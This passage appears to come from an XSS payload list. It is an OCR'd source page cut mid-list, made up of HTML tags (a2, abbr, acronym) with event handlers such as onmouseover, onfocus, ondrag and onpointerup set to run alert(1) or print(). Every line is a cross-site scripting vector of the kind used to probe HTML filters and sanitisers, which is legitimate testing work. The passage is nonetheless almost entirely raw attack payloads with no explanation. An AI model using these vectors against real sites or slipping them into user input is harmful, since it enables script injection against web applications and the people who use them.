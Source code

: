 &lt;a2 ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/a2&gt;
&lt;a2 onkeydown="alert(1)" contenteditable&gt;test&lt;/a2&gt;
&lt;a2 onkeypress="alert(1)" contenteditable&gt;test&lt;/a2&gt;
&lt;a2 onkeyup="alert(1)" contenteditable&gt;test&lt;/a2&gt;
&lt;a2 onmousedown="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 onmouseenter="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 onmouseleave="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 onmousemove="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 onmouseout="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 onmouseover="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 onmouseup="alert(1)"&gt;test&lt;/a2&gt;
&lt;a2 onmousewheel=alert(1)&gt;requires scrolling
&lt;a2 onpointerdown=alert(1)&gt;XSS&lt;/a2&gt;
&lt;a2 onpointerenter=alert(1)&gt;XSS&lt;/a2&gt;
&lt;a2 onpointerleave=alert(1)&gt;XSS&lt;/a2&gt;
&lt;a2 onpointermove=alert(1)&gt;XSS&lt;/a2&gt;
&lt;a2 onpointerout=alert(1)&gt;XSS&lt;/a2&gt;
&lt;a2 onpointerover=alert(1)&gt;XSS&lt;/a2&gt;
&lt;a2 onpointerrawupdate=alert(1)&gt;XSS&lt;/a2&gt;
&lt;a2 onpointerup=alert(1)&gt;XSS&lt;/a2&gt;
&lt;abbr draggable="true" ondrag="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr draggable="true" ondragend="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr draggable="true" ondragenter="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr draggable="true" ondragleave="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr draggable="true" ondragstart="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr id=x tabindex=1 onactivate=alert(1)&gt;&lt;/abbr&gt;
&lt;abbr id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/abbr&gt;
&lt;abbr id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/abbr&gt;&lt;input autofocus&gt;
&lt;abbr id=x tabindex=1 ondeactivate=print()&gt;&lt;/abbr&gt;&lt;input id=y autofocus&gt;
&lt;abbr id=x tabindex=1 onfocus=alert(1)&gt;&lt;/abbr&gt;
&lt;abbr id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/abbr&gt;
&lt;abbr onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;abbr onbeforecopy="alert(1)" contenteditable&gt;test&lt;/abbr&gt;
&lt;abbr onbeforecut="alert(1)" contenteditable&gt;test&lt;/abbr&gt;
&lt;abbr onbeforepaste="alert(1)" contenteditable&gt;test&lt;/abbr&gt;
&lt;abbr onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;abbr onblur=alert(1) tabindex=1 id=x&gt;&lt;/abbr&gt;&lt;input autofocus&gt;
&lt;abbr onclick="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr oncontextmenu="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;abbr oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;abbr ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/abbr&gt;
&lt;abbr onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/abbr&gt;&lt;input autofocus&gt;
&lt;abbr onkeydown="alert(1)" contenteditable&gt;test&lt;/abbr&gt;
&lt;abbr onkeypress="alert(1)" contenteditable&gt;test&lt;/abbr&gt;
&lt;abbr onkeyup="alert(1)" contenteditable&gt;test&lt;/abbr&gt;
&lt;abbr onmousedown="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr onmouseenter="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr onmouseleave="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr onmousemove="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr onmouseout="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr onmouseover="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr onmouseup="alert(1)"&gt;test&lt;/abbr&gt;
&lt;abbr onmousewheel=alert(1)&gt;requires scrolling
&lt;abbr onpaste="alert(1)" contenteditable&gt;test&lt;/abbr&gt;
&lt;abbr onpointerdown=alert(1)&gt;XSS&lt;/abbr&gt;
&lt;abbr onpointerenter=alert(1)&gt;XSS&lt;/abbr&gt;
&lt;abbr onpointerleave=alert(1)&gt;XSS&lt;/abbr&gt;
&lt;abbr onpointermove=alert(1)&gt;XSS&lt;/abbr&gt;
&lt;abbr onpointerout=alert(1)&gt;XSS&lt;/abbr&gt;
&lt;abbr onpointerover=alert(1)&gt;XSS&lt;/abbr&gt;
&lt;abbr onpointerrawupdate=alert(1)&gt;XSS&lt;/abbr&gt;
&lt;abbr onpointerup=alert(1)&gt;XSS&lt;/abbr&gt;
&lt;acronym draggable="true" ondrag="alert(1)"&gt;test&lt;/acronym&gt;